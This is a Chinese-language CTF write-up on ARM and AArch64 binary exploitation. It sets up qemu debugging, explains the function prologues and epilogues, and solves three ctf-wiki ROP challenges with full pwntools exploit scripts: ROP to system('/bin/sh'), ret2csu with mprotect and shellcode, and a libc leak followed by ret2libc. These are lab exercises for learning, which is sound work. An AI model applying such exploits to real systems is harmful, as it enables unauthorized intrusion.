



环境搭建
安装binfmt和gdb-multiarch，binfmt会自动识别可执行文件的格式，然后传递其至相对应架构的qemu虚拟机，参考https://zh.wikipedia.org/wiki/Binfmt_misc。
gdb-multiarch是一个可以调试各种架构的gdb，就不需要自行编译target为不同架构的gdb了，十分方便。
sudo apt install "binfmt*"
sudo apt install gdb-multiarch接着还需要安装不同架构的共享库。
sudo apt install libc6-arm64-cross
sudo apt install libc6-armel-cross
sudo apt install libc6-armhf-cross如果arm程序是动态链接的，则需要指定共享库的路径，上面我们安装的共享库默认存放在/usr/目录下。以aarch64即arm64为例子。
qemu-aarch64 -L /usr/aarch64-linux-gnu binary_path如果要想调试的话，加上-g port，然后使用gdb-multiarch远程调试。
qemu-aarch64 -L /usr/aarch64-linux-gnu -g 1234 binary_patharm指令初识
这里我就不详细写了，资料有很多，而且主要熟悉一下基本的指令即可，参考链接https://www.jianshu.com/p/2f4a5f74ac7a，等一下结合具体题目来学习。
练习
题目链接: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/arm
拿ctf-wiki上面的题目用来练手，目前只有rop的章节，有三道题目。
typo
$ checksec typo
[*] '/home/pkfcoding/arm_pwn/arm1/typo'
Arch: arm-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8000)
$ file typo
typo: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=211877f58b5a0e8774b8a3a72c83890f8cd38e63, stripped 架构为32位arm，没有开pie，没有canary，静态链接。ida打开，发现符号表被去掉了，只能通过猜或者rizzo来判断是啥函数。一开始只能定为start函数，但其实start函数会对main函数的地址有引用，再通过字符串也可以找到main函数的地址为.text:00008F00。漏洞点出现在读取字符串的时候的read函数，可以读取0x200个字节导致栈溢出。

首先要想控制返回地址，我们得先了解一下arm的调用规则。进入函数后，首先被执行的是如下三条指令。
.text:00008D24 STMFD SP!, {R4,R11,LR}
.text:00008D28 ADD R11, SP, #8
.text:00008D2C SUB SP, SP, #0x74STMFD相当于push，ST就是store，M就是multi，F就是full，即栈顶指向栈顶元素，D就是Descending，表示栈往低地址方向增长。SP后面跟的!意思是，sp的值会跟着压栈的操作变化。压栈顺序从右往左。SP=SP-4*3。然后继续执行第二条指令，使得R11即bp等于SP+8，指向返回地址存放的地方。然后第三条指令，是分配函数的栈空间。再看看函数结束时的恢复指令。
.text:00008DE0 MOV R0, R3
.text:00008DE4 SUB SP, R11, #8
.text:00008DE8 LDMFD SP!, {R4,R11,PC} 第一条指令是将函数返回值赋给R0，随后，回收函数的栈空间使得SP指向R11-8，即存储R4的地址，随后LDMFD指令即为pop指令，从左往右将R4，R11，PC依次出栈。
所以这里我们构造的payload应该为”a”*0x70 + retaddr。接下来的事情就是常规操作了，因为是静态链接，从rizzo插件中可以识别出来有system函数，我们只需找到一个gadget控制R0寄存器即可。
$ arm1 ropper --file ./typo --search "pop {r0"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop {r0
[INFO] File: ./typo
0x00053078: pop {r0, r1, r2, r3, r4, lr}; bx ip;
0x00053d64: pop {r0, r1, r3, ip, lr}; pop {r2}; ldr r1, [r0, #4]; bx r1;
0x00020904: pop {r0, r4, pc};0x20904即可满足条件，再来寻找”/bin/sh”的地址
$ ropper --file ./typo --string "/bin/sh"
Strings
=======
Address Value
------- -----
0x0006c384 /bin/shexp如下：
#!/usr/bin/python
#-*- coding:UTF-8 -*-
from pwn import *
import sys
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']
context.binary = "./typo"
if sys.argv[1] == "r":
p = remote("127.0.0.1", 1234)
elif sys.argv[1] == "l":
p = process(["qemu-arm", "./typo"])
else:
p = process(["qemu-arm", "-g", "1234", "./typo"])
raw_input()
elf = ELF("./typo")
# 0x00020904: pop {r0, r4, pc};
gadget = 0x20904
bin_sh = 0x6c384
system_addr = 0x110B4
p.recvuntil('Input ~ if you want to quit\n')
p.send('\n')
p.send("a"*0x70 + p32(gadget) + p32(bin_sh) + p32(0xdeadbeaf) + p32(system_addr))
p.interactive()pwn
$ checksec pwn
[*] '/home/pkfcoding/arm_pwn/arm2/pwn'
Arch: aarch64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000) 架构为aarch64，没有pie和canary，为动态链接。用ida分析发现有一个明显的栈溢出漏洞，按照普通的方法应该去泄露libc地址，然后再执行一遍main来再一次溢出跳转至system，不过这里题目中特定引入了mprotect函数，那么我们就可以转而去执行mprotect函数使得bss段变为可执行段，然后在name中部署好shellcode，然后控制程序跳转至shellcode执行。我们这里使用第二种方法。难点就在于因为给的mprotect函数的参数如下

prot参数不符合我们的要求，我们应该设置其为7才行，因此需要用gadget来控制R2寄存器，因为找不到合适的gadget，于是便想起可以用ret2csu，找到init函数的gadget如下。

具体的流程我这里就不说了，可以看看ctf-wiki的ret2csu的章节，这里主要是学习一些汇编指令。
上一题分析了arm的函数调用规范，现在我们在来看看aarch64的函数调用规范。这里拿main函数来举例。函数开始时
.text:0000000000400818 STP X29, X30, [SP,#-0x10+var_s0]!
.text:000000000040081C MOV X29, SPST为store，P为pair，STP指令将X29存放在在SP-0x10，X30存放在在SP-0x8处，注意这条指令后面带有!，意思是SP会随着压栈的操作变化，即SP=SP-0x8。随后MOV指令更新X29为新的栈帧，由于main函数中没有局部变量，所以这里没有为main函数分配栈空间。函数结束返回时
.text:000000000040085C LDP X29, X30, [SP+var_s0],#0x10
.text:0000000000400860 RET从SP+0x0处载入数据至X29，X30恢复栈帧和得到返回地址，然后再执行SP=SP+0x10，接着RET。
exp如下
#!/usr/bin/python
#-*- coding:UTF-8 -*-
from pwn import *
context.log_level = 'debug'
context.binary = './pwn'
gdbinit = '''
set architecture aarch64
target remote localhost:1234
'''
elf = ELF("./pwn")
if sys.argv[1] == "r":
p = remote("127.0.0.1", 1234)
elif sys.argv[1] == "l":
p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "-g", "1234", "./pwn"])
raw_input()
shellcode = asm(shellcraft.aarch64.sh())
shellcode_addr = 0x411068
mprotect = 0x4007D4
csu_gadget1 = 0x4008CC
csu_gadget2 = 0x4008AC
X21=shellcode_addr + 0x30
X22=7
p.recvuntil('Name:')
p.sendline(shellcode.ljust(0x30, '\x00') + p64(mprotect))
sleep(1)
p.send("a"*0x40 + p64(0xdeadbeaf) + p64(csu_gadget1) + p64(0xdeadbeaf) + p64(csu_gadget2) + p64(0x0)*2 + p64(X21) + p64(X22) + p64(0x0)*2 + p64(0xdeadbeaf) + p64(shellcode_addr))
p.interactive()
melong
这道题给了libc和ld，需要把这两个放在/lib目录下，程序才可执行。
$ checksec melong
[*] '/home/pkfcoding/arm_pwn/arm3/melong'
Arch: arm-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x10000)漏洞点出现在write_diary函数，write_diary中会调用read，但是读的字节数是根据write_diary的第一个参数result的末尾字节，在main函数中result就是v7，而v7可以被PT函数赋值，在PT函数中，很容易发现只要对scanf输入为-1，即可绕过for循环返回-1，从而控制v7为0xffffffff，在write_diary中read就可以读取0xff个字节从而造成main函数的栈溢出。
利用的思路是，通过read之后的printf函数泄露libc的地址，然后通过gadget控制R0，返回值system函数。这就没啥好说的了。
exp如下
#!/usr/bin/python
#-*- coding:UTF-8 -*-
from pwn import *
import sys
sd = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
slaf = lambda x,y: p.sendlineafter(x, y)
rcv = lambda x: p.recv(x)
rcvu = lambda x:p.recvuntil(x)
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']
context.binary = "./melong"
if sys.argv[1] == "r":
p = remote("127.0.0.1", 1234)
elif sys.argv[1] == "l":
p = process(["qemu-arm", "./melong"])
else:
p = process(["qemu-arm", "-g", "1234", "./melong"])
raw_input()
pop_r0_pc = 0x11bbc
elf = ELF("./melong")
libc = ELF("/lib/libc.so.6")
slaf('Type the number:', '1')
sl('50')
sl('50')
slaf('Type the number:', '3')
slaf('take personal training?', '-1')
slaf('Type the number:', '4')
sd("a"*0x54)
rcvu("a"*0x54)
libcbase = u32(rcv(4)) - 0x17098
info("libcbase:%#x" %libcbase)
bin_sh = libcbase + 0x131bec
system = libcbase + libc.symbols['system']
slaf('Type the number:', '4')
sd("a"*0x54 + p32(pop_r0_pc) + p32(bin_sh) + p32(system))
slaf('Type the number:', '6')
p.interactive()
总结
从这三道普通的rop pwn题来看，arm架构下的函数调用规范还是和x86下面的有很大差别的，汇编指令感觉没有x86这么易读，特别是有些细节需要注意比如说 !和arm32下的fp指向的是retaddr，而不是前函数的fp。